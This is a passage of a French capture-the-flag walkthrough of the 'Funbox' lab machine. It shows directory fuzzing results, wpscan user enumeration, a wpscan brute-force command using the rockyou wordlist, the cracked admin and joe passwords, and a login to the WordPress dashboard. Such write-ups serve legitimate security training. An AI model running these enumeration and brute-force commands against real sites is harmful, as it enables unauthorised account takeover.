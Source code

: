 On recherche également de potentiels fichiers qui auraient pour extension **.php, .txt et .html**.

```bash
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 61294, Words: 3825, Lines: 497]
license.txt             [Status: 200, Size: 19915, Words: 3331, Lines: 385]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
wp-login.php            [Status: 200, Size: 4502, Words: 211, Lines: 83]
readme.html             [Status: 200, Size: 7278, Words: 740, Lines: 98]
robots.txt              [Status: 200, Size: 19, Words: 2, Lines: 2]
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5]
```

Sans surprises on retrouve les dossiers et fichiers liés à WordPress ainsi qu'un autre dossier qui peut être intéressant : **secret**.

Lorsqu'on va voir dans le **robots.txt** on retrouve ce fameux dossier secret. On tente donc d'y accéder à l'adresse suivante : http://funbox.fritz.box/secret/ un joli message nous accueille ``No secrets here. Try harder !``. On aurait préféré des informations croustillantes mais on va se contenter de cet encouragement.                                     


J'ai ensuite tenté de scanner le site web avec l'outil **wpscan** puisque c'est du WordPress :

```bash
wpscan --url http://funbox.fritz.box/ -e
```

L'option `-e` veut dire qu'on veut tout **énumérer** (plugins, utilisateurs, thèmes ...).

Enfin quelque chose d'intéressant !

```bash
[+] admin
[+] joe
```

Nous avons obtenus deux **utilisateurs**. On peut continuer sur cette lancée avec wpscan et tenter de **bruteforce** ces deux noms d'utilisateurs :

```bash
wpscan --url http://funbox.fritz.box/ -U 'admin,joe' -P /usr/share/wordlist/rockyou.txt
```

On spécifie avec `-U` la liste des utilisateurs (on aurait également pu les mettre dans un fichier).
`-P` permet de spécifier la wordlist pour tenter de cracker les mots de passes. On reste sur du basique avec **rockyou**.

Peu de temps après on ressort avec deux mots de passe (faut se réjouir ça n'arrive pas souvent) :

```bash
Username: joe, Password: 12345
Username: admin, Password: iubire
```

On se connecte avec *admin* sur http://funbox.fritz.box/wp-login.php mais il n'y a rien de vraiment intéressant sur le dashboard si ce n'est un message du créateur de la box qui nous donne plus de précisions sur celle-ci.
